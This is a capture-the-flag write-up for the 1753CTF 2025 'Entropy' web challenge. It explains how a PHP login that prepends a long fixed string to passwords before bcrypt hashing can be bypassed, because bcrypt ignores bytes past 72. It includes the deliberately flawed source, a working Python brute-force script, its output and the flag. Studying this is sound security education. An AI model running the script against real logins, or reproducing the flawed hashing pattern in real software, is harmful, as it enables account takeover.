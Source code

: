 ```yaml
---
title: "Entropyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy"
description: "It's finally here. Something everyone's been waiting for. A service that solves the biggest problem of humanity. People passwords. They are tooooooooooo short. This service applies so much fresh organic gluten free salt to the password that even the biggest noob who has the word 'dog' as their password can feel safe. So much entropy that I can't even imagine it!" 
pubDate: 2025-04-28
ctf: "1753CTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-1753ctf/icon.png"
---
```


The challenge has a web application, the front page displaying a login screen:
![entropyhome.png](images/25-1753ctf/entropyhome.png)

The challenge also supplies PHP source code:
```php
<?php

error_reporting(0);
ini_set('display_errors', 0);

session_start();

$usernameAdmin = 'admin';
$passwordAdmin = getenv('ADMIN_PASSWORD');

$entropy = 'additional-entropy-for-super-secure-passwords-you-will-never-guess';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';
    
    $hash = password_hash($usernameAdmin . $entropy . $passwordAdmin, PASSWORD_BCRYPT);
    
    if ($usernameAdmin === $username && 
        password_verify($username . $entropy . $password, $hash)) {
        $_SESSION['logged_in'] = true;
    }
}

?>
... // HTML CODE
<?php
if (isset($_SESSION['logged_in'])) {
?>

    <div class="welcome">Hello, Admin, here's your secret message:<br />
    <?php echo strval(getenv('flag')); ?> <br/><br/>Don't share it with anyone!</div>
<?php
} else {
?>
... // MORE HTML CODE
<?php } ?>
    
</body>
</html>
```

Looking at the source code, it reminds me of a vulnerability I read about earlier in the year: [Okta Password Bypass](https://www.pureid.io/okta-password-bypass/)

It worked due to bcrypt only using the first 72 characters for a hash, anything over is ignored!

Seeing as the hash is generated as the admin username (`admin`) and the 'entropy' (a really long string), then the password. Everything after the 72 characters can be ignored.

`admin` is 5 characters, `entropy` is 66, leaving us with 1 character to bruteforce to login!

A simple Python script can be used to achieve this:

```python
import requests
import string

target_url = "http://localhost:8000/"

def exploit_bcrypt_limit():
    session = requests.Session()

    admin_username = "admin"
    entropy = "additional-entropy-for-super-secure-passwords-you-will-never-guess"

    passwords_to_try = []

    for char in string.printable:
        if char not in "\r\n\t\x0b\x0c":
            passwords_to_try.append(char)

    for password in passwords_to_try:
        print(f"Trying password: '{password}'")

        payload = {
            "username": admin_username,
            "password": password
        }

        try:
            response = session.post(target_url, data=payload)

            if "Hello, Admin" in response.text or "secret message" in response.text:
                print(f"****** Valid password prefix: '{password}'")
                return

        except Exception as e:
            print(f"[!] Error: {e}")
            continue

if __name__ == "__main__":
    try:
        exploit_bcrypt_limit()
    except KeyboardInterrupt:
        print("\n[!] Attack interrupted by user")
    except Exception as e:
        print(f"[!] Unexpected error: {e}")
```

```
$ python3 poc.py
Trying password: '0'
Trying password: '1'
Trying password: '2'
...
Trying password: '}'
Trying password: '~'
****** Valid password prefix: '~'
```

Logging in, we get the flag!

Flag: `1753c{bcrypt_d0esn7_1ik3_v3ry_10ng_p455w0rd5}`
